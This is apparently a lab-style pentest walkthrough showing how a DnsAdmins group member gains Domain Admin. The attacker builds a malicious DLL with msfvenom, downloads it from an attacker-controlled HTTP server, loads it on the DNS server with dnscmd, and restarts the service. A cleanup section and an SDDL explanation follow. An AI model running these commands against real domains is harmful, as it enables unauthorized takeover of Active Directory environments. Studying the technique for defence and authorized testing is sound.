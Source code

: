 # Leveraging DnsAdmins Access to Domain Controller

Members of the DnsAdmins group can manage DNS servers, Which are very commonly running on domain controller. <br>
As detailed in [this blog post](https://adsecurity.org/?p=4064), there is a (fairly simple) way to get Domain Admin from DNSAdmins by loading an arbitrary dll on the dns server.

This is not considered a bug, it's RCE as a feature.

This is doable using the built-in execultable [dnscmd.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) :

```bat
dnscmd.exe /config /serverlevelplugindll \\path\to\dll
```

## Example walkthrough of the attack

First, to confirm your presence n the DNSAdmins group : 
```ps1
Get-ADGroupMember -Identity DnsAdmins
```

## Generating a Malicious DLL 
First we need a malicious DLL and to get it on our windows host. Here i'll use msfvenom to craft a dll that will add my user to the Domain Admins group, and i'll serve it using a simple python http server : 
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
python3 -m http.server 7777
```

## Launching the attack
Download my evil dll using Invoke-WebRequest: 
```ps1
iwr -Uri http:10.10.14.133:7777/adduser.dll -Outfile adduser.dll
```
Then, launch the attack : 
```ps1
# /!\ We need to specify the absolute path of the DLL 
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

This will change the ServerLevelPluginDll registry key to the absolute path of our dll.
The change will not be effective immediately, the DNS Server needs to restart first, but we can wait right ?

## Finalize the attack:
### Check our permissions 
We can restart the DNS __if we have the correct permissions__ to restart the DNS ourselves, else you'll have to wait. 
You need to know your SID first : 
```bat
wmic useraccount where name="netadm" get sid
SID
S-1-5-21-669053619-2741956077-1013132368-1109

# Then check the permissions of the DNS Service:
PS > sc.exe sdshow DNS 
```
#### Sidenote on reading SDDL
You'll get an alien-like string of SDDL syntax like this :
```
D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```
it's in two parts D: and S: describing respectively Discretionary and System ACLs. <br>
In the first half, you'll first your Access Control Entry String, here it looks like : <br>
`(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)`<br>

It is read like this : `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid;`<br>
So here We have : 
```
ace_type:       A       (SDDL_ACCESS_ALLOWED)
ace_flags:
rights:         RPWP    (SDDL_READ_PROPERTY,SDDL_WRITE_PROPERTY)
object_guid:
inherit_object:
account_sid:    S-1-5-21-669053619-2741956077-1013132368-1109
```
[More Info on SDDL in this article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/#sc_sdshow)
or [here on MSDN](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-string-format)

### Restarting the DNS Server 
If we have the correct permissions, we can restart the service with sc.exe : 
```
sc stop dns
sc start dns
```
The DNS will show that it failed to restart properly as it attempts to run our DLL.
But our exploit should have run o/ <br>
So let's check it with `net group "Domain Admins" /dom` <br>
You should see 'netadm' in the members list :D

NOW, BE SMARTER THAN ME <br>
If you don't have permissions yet, logout and log back in again before searching for mistakes you never did.



## Cleaning up

Maybe avoid leaving everything there as blocking the DNS server is quite dirupting and can cause many issues over the entire active directory environment.
```ps
# Check our registry key
reg query HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
# You should see :
#     ServerLevelPluginDll    REG_SZ    adduser.dll

# Delete it with : 
reg delete HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters -v ServerLevelPluginDll

# Then you should be able to successfully restart the DNS 
sc start dns

# You can check DNS status using 
sc query dns
```

## Notes
We can execute any type of DLL, an other good pick would've been [kdns from mimilib](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c)